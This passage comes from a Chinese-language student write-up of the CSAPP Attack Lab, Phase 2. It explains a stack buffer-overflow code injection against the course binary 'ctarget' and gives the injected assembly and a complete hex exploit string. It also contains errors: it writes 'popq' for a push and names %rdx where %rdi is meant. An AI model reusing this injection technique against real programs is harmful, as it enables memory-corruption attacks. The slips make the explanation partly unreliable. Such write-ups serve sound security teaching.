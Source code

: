 ![1.2](D:\CSAPP\write-ups\attacklab\1.2.png)

Phase 1完成！

### Phase 2

文档描述如下：

Phase 2 involves injecting a small amount of code as part of your exploit string. Within the file ctarget there is code for a function touch2 having the following C representation:

```c
void touch2(unsigned val)
{
	vlevel = 2; /* Part of validation protocol */
	if (val == cookie) {
		printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2);
	} else {
		printf("Misfire: You called touch2(0x%.8x)\n", val);
		fail(2);
	}
	exit(0);
}

```

Your task is to get CTARGET to execute the code for touch2 rather than returning to test. In this case, however, you must make it appear to touch2 as if you have passed your cookie as its argument.

touch2函数的反汇编代码如下：

![1.3](D:\CSAPP\write-ups\attacklab\1.3.png)

可以看到函数首地址在0x4017ec，然后我们向touch2函数中传递了参数val，我们需要使它的值和cookie相等（也就是说val=0x59b997fa），函数的第一个值保存在rdi寄存器中，故我们调用getbuf函数的时候，在跳转到touch2函数之前，还要使rdx中的值为0x59b997fa，所以我们需要两条汇编指令：

```assembly
mov $0x59b997fa,%rdi
popq $0x4017ec
ret					;此处返回是因为我们已经利用一个ret来返回到栈执行操作了，故还需要添加一个ret返回到我们执行我们想要的操作后					;那个原本要跳转的地址，也就是我们希望的touch2
```

我们需要把这三条指令变为机器码作为exploit code

![1.4](D:\CSAPP\write-ups\attacklab\1.4.png)

最后我们还需要得到栈地址：

![1.5](D:\CSAPP\write-ups\attacklab\1.5.png)

可以看到栈首地址为0x5561dc78，也就是说我们构造的exploit code中，前面写入指令，然后用无用字节占据空间，在最后放入栈地址即可：

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
